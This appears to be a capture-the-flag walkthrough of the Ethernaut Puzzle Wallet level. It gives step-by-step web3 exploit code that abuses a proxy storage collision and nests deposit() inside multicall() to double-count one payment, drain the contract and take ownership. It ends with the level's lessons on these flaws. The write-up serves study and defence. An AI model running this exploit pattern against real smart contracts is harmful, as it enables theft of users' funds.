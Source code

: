 Let's try looking `multicall()` by calling `deposit()` twice. Looking at the code
of the `multicall()` function, we can see that the `deposit()` function can only
be called once, due to the `depositCalled` variable.

`multicall()` allows to call multiple functions in one function call. What about
if we call `deposit()` and `multicall()` within a `multicall()` call?
That should work, since the `depositCalled` variable is a local variable and 
we would be able to call the `deposit()` function again, within a new `multicall()`
function call.

I copied the PuzzleProxy contract to Remix and loaded the instance from the
given instance address, to be able to call functions directly on the PuzzleProxy
contract.

Geez, sounds complicated. Let's try down the code which tailors everything together:


```javascript
// in remix
await contract.proposeNewAdmin("0xYourAddress") // you might click also just the proposeNewAdmin button
// in console
await contract.addToWhitelist(player)
const depositSignature = web3.eth.abi.encodeFunctionSignature("deposit()")
const firstMultiCallSignature = web3.eth.abi.encodeFunctionSignature("multicall(bytes[])")
const nestedMultiCallSig = web3.eth.abi.encodeFunctionCall({name: "multicall", type: "function", inputs: [{type: 'bytes[]', name: 'data'}]}, [[depositSignature]])
const actualMultiCallSig = web3.eth.abi.encodeFunctionCall({name: "multicall", type: "function", inputs: [{type: 'bytes[]', name: 'data'}]}, [[nestedMultiCallSig, depositSignature]])
await web3.eth.sendTransaction({from: player, to: contract.address, value: '1000000000000000',data: actualMultiCallSig.substring(2)})
const balanceOne = await getBalance(contract.address)
const balanceTwo = await contract.balances(player).then(v => v.toString())
// Last two commands should show the same amount
// if yes, we can continue
await contract.execute(player, 2000000000000000, '0x')
await contract.setMaxBalance(player)
```

And we are the owner :) Congratulations

### Learning

From the level:

>Next time, those friends will request an audit before depositing any money on a contract. Congrats!
>
>Frequently, using proxy contracts is highly recommended to bring upgradeability features and reduce the deployment's gas cost. However, developers must be careful not to introduce storage collisions, as seen in this level.
>
>Furthermore, iterating over operations that consume ETH can lead to issues if it is not handled correctly. Even if ETH is spent, msg.value will remain the same, so the developer must manually keep track of the actual remaining amount on each iteration. This can also lead to issues when using a multi-call pattern, as performing multiple delegatecalls to a function that looks safe on its own could lead to unwanted transfers of ETH, as delegatecalls keep the original msg.value sent to the contract.
